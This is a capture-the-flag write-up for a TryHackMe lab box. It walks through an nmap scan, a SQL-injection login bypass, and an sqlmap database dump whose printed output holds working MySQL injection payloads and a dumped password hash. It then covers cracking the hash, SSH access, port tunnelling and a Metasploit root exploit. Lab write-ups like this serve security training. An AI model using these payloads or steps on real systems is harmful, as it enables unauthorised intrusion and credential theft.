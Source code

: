 # Gamer Zone CTF

A writeup on the challenge from TryHackMe!


### nmap
To start off, we do an nmap scan to see some of the running services.

`nmap -sV -O 10.10.245.4 -vv`

![s1](images/s1.png)

### website

![s2](images/s2.png)


In the login form, we can try to use SQL injection to gain access without needing a password.

![s3](images/s3.png)

This ends one SQL statement by closing it with `'` and then runs `OR` with `1=1` which is a [tautology](https://en.wikipedia.org//wiki/Tautology_(logic)) basically meaning something that is always true. It is closed out with `-- -` which comments out the rest of the query, so that it won't raise any errors. I attempted the injection with `--` (typically how an sql comment looks) but it didn't work. Perhaps there is something that filters our `--` in some way.

We are then brought to the next page
![s4](images/s4.png)

### sqlmap

Let's try a test query and intercept it with Burp.

![s5](images/s5.png)

![s6](images/s6.png)

Copy the request into a file `request.txt` so it can be used in sqlmap.

We are going to try to get the site to dump the entire database.

```
┌──(root㉿kali)-[~]
└─# sqlmap -r request.txt --dbms=mysql --dump        
        ___
       __H__                                                                                                                                                                   
 ___ ___[.]_____ ___ ___  {1.6.10#stable}                                                                                                                                      
|_ -| . [,]     | .'| . |                                                                                                                                                      
|___|_  [)]_|_|_|__,|  _|                                                                                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                                                                                   

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:15:09 /2023-08-09/

[19:15:09] [INFO] parsing HTTP request from 'request.txt'
[19:15:09] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-8207' OR 7248=7248#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=test' AND GTID_SUBSET(CONCAT(0x7162717071,(SELECT (ELT(6226=6226,1))),0x716b706a71),6226)-- efZz

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=test' AND (SELECT 7298 FROM (SELECT(SLEEP(5)))DrfP)-- pcTO

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=test' UNION ALL SELECT NULL,NULL,CONCAT(0x7162717071,0x4a477a4465575a6f644d7a5578425459787a49756e536b5074656f5262776b455a496e4641556c49,0x716b706a71)#
---
[19:15:10] [INFO] testing MySQL
[19:15:10] [INFO] confirming MySQL
[19:15:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
[19:15:10] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[19:15:10] [INFO] fetching current database
[19:15:10] [INFO] fetching tables for database: 'db'
[19:15:10] [INFO] fetching columns for table 'users' in database 'db'
[19:15:10] [INFO] fetching entries for table 'users' in database 'db'
[19:15:10] [INFO] recognized possible password hashes in column 'pwd'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[19:15:20] [INFO] writing hashes to a temporary file '/tmp/sqlmapksufb8eg17080/sqlmaphashes-0uvi55xd.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

[19:15:31] [INFO] table 'db.users' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.245.4/dump/db/users.csv'
[19:15:31] [INFO] fetching columns for table 'post' in database 'db'
[19:15:31] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[19:15:31] [INFO] table 'db.post' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.245.4/dump/db/post.csv'
[19:15:31] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.245.4'
[19:15:31] [WARNING] your sqlmap version is outdated

[*] ending @ 19:15:31 /2023-08-09/
```
Success!

### cracking the password

Now we can prepare our newly found hash `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14` for cracking.

![s7](images/s7.png)

Then we  identify the hash type.

![s8](images/s8.png)

Finally we can run `john` to find the password.

![s9](images/s9.png)


### getting into the system

Use `ssh` to get into the system with our new username and password.

![s10](images/s10.png)

### exposing services with reverse SSH tunnels

We run `ss` to show socket statistics.

![s11](images/s11.png)

There is a TCP service running on port 10000, hypothetically open to remote users. We didn't see this in our nmap scan, so let's investigate further.

![s12](images/s12.png)

It can't be reached as a remote site...

We can use a reverse SSH tunnel to expose this new mystery service.

`ssh -L 10000:localhost:10000 agent47@10.10.145.4`

So we are now forwarding this service to ourselves. 

Check the browser!

![s13](images/s13.png) Log in with the same username and password as we did for SSH. (Please don't re-use passwords in the real world)

![s14](images/s14.png)

Now gives us information about the service running. 


### using an exploit to get root

Now we know what service is running, let's look around for ways to exploit it. For this I will be using `msfconsole`.

![s15](images/s15.png)

Set the options as follows:
![s16](images/s16.png)

Now that everything is set up, we can run the exploit and gain root access!

![s17](images/s17.png)

